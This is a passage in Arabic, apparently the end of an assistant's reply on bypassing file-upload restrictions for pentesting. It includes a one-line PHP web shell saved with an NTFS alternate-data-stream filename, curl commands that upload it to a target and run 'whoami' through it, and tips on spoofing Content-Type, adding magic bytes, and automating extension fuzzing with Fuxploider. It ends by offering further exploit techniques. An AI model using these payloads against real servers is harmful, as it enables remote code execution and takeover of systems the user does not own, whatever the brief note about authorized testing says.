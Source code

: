 8. **تدفقات البيانات البديلة في NTFS**:
   ```bash
   echo '<?php system($_GET["cmd"]); ?>' > shell.php:.jpg
   curl -X POST -F "file=@shell.php:.jpg" http://<target>/upload
   curl 'http://<target>/Uploads/shell.php?cmd=whoami'
   ```

---

## نصائح إضافية
- **استخدام أدوات الوكيل**: استخدم Burp Suite أو OWASP ZAP لتعديل أسماء الملفات ورؤوس HTTP (مثل `Content-Type: image/jpeg`).
- **اختبار جميع الامتدادات**: جرب كل الامتدادات القابلة للتنفيذ بناءً على نوع الخادم (مثل `.asp` لـ IIS، `.jsp` لخوادم Java).
- **دمج التقنيات**: ادمج تجاوز الامتدادات مع تعديل `Content-Type` أو إضافة بايتات سحرية (مثل `\x89PNG`).
- **أتمتة الاختبار**: استخدم Fuxploider لاختبار الامتدادات تلقائيًا:
  ```bash
  python3 fuxploider.py --url http://<target>/upload --extensions php,jpg,png,gif
  ```
- **التحقق من التنفيذ**: تحقق دائمًا من تنفيذ الملف عبر `curl` أو المتصفح.
- **الاختبار بمسؤولية**: اختبر فقط على أهداف مُصرح بها (مثل بيئات مختبرية أو برامج مكافآت الأخطاء).

إذا كنت تريد شرح خطوة أخرى (مثل MIME Type Manipulation أو ImageMagick Exploits) بنفس الأسلوب، أو تركيزًا على نوع خادم معين، أخبرني وسأقدم ردًا مخصصًا!